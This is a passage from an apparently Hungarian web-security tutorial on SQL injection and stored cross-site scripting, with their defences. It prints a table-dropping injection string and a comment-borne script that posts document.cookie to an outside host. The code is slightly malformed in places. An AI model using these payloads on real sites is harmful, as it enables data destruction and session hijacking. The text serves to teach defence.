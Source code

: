 Így a lekérdezésünk a következőképpen alakult:

INSERT INTO user (username`,`email`,`realname`) VALUES ('Mr. trolo','a','b'); DROP TABLE users;

[![gonvu](assets/uploads/2015/01/gonvu-300x168.jpg)  
E](assets/uploads/2015/01/gonvu.jpg)z ellen kétféleképp tudunk védekezni:

1. Nem használunk SQL adatbázist, hanem NoSQL megoldásokkal operálunk (ez azért csücskös).
2. Escapeljük a stringeket a mysqli\_real\_escape\_string()-el és hasonlókkal, bár ez már kissé idejétmúlt megoldás
3. Prepared statementeket használunk. Ennek tárgyalása nem fér bele az időkeretbe, de hasonlóképp képzeljük el, mint egy printf()-et.

A dolog lényege, hogy mindig OTT escapeljük, ahol épp kell, tehát jelen esetben az adatbázisunkban. A függvényeinket kommenteljük, hogy lássák mások is és mi is, hogy az escaped vagy nem escaped értékeket vár, hogy később ne kavarodjunk bele.

#### XSS, alias cross site scripting

Ennek kétféle módja van, perzisztens és nem perzisztens, ellenben a kettő közti különbségre most nem térnék ki, mert már így is túl sokat árultam el 🙂

Vegyünk egy perzisztens fajtát. Jöjjön egy fórum, vagy blog, ahol a kommenteket a szerver direktben megjeleníti. Így ha valaki okos és ügyes, akkor a következő hozzászólással bizony ellophatja a sütijeinket:

```
<pre data-language="javascript"><script type="text/javascript">
$(document).ready(function(){
   myhost = myhost.com/got/your/cookie
   $.ajax({ host: myhost,
             type : "POST",
             data: { cookies : document.cookie },
             success: function() {
               //  alert('Gratulálok, Ön nyert!'); nem lenne sok értelme jelezni, hogy gondot okoztunk
             }
   })
});</script>Igen, szerintem is így van! :)
```

Nos az oldal üzemeltetője és mások számára ez csupán egy szimpla hozzászólás, hiszen a script![cookie-monster-your-edm](assets/uploads/2015/01/cookie-monster-your-edm-300x169.jpg) tag-ek közé zárt szöveget alapesetben nem íratja ki az oldal. Mondhatnánk, hogy mégis kit érdekel, hogy ellopta a sütiket? Nos, az tartalmazhat sokmindent, hogy csak egy példát hozzak: PHPSESSID, arról nem is beszélve, hogy egyesek szenzitív információkat is tárolnak sütikben. Nincs más dolga az illetőnek, mint ülni otthon és csemegézni a saját kis API-ja által bezsákmányolt információkon.

Solution: A változók kiíratásakor mindenképpen escape-ljük az adott szöveget a htmlentities() vagy htmlspecialchars()-al és ez esetben tiszta szövegként értelmezi a kapott html elemeket is.

A következő részben kitérek a CSRF támadásra és Session fixating/hijacking-ra.